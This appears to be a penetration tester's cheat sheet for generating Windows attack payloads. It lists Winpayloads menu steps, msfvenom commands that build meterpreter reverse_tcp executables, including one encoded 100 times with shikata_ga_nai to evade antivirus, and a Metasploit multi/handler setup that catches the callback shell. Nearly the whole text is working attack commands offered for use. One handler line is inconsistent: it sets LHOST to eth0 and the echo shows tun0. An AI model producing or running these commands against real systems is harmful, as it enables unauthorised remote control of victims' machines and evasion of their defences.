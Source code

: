 ### [Payload Resources]
https://github.com/nccgroup/Winpayloads

Winpayloads.py

stager
r
ps payload
execute payload on target
#handler gets hit
\
clients
clientid#
\
back (to main menu)
2 to reverse tcp
y to upload
clientid#
\
#msfloads
sessions -i sesid#
shell
background (leave process in background)
sessions -k sesid#
\
clients
exit (kills client session)

https://github.com/xephora/PayloadsAllTheThings

[Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

### [Handler]
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST eth0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 32119
LPORT => 32119
msf5 exploit(multi/handler) > run

https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

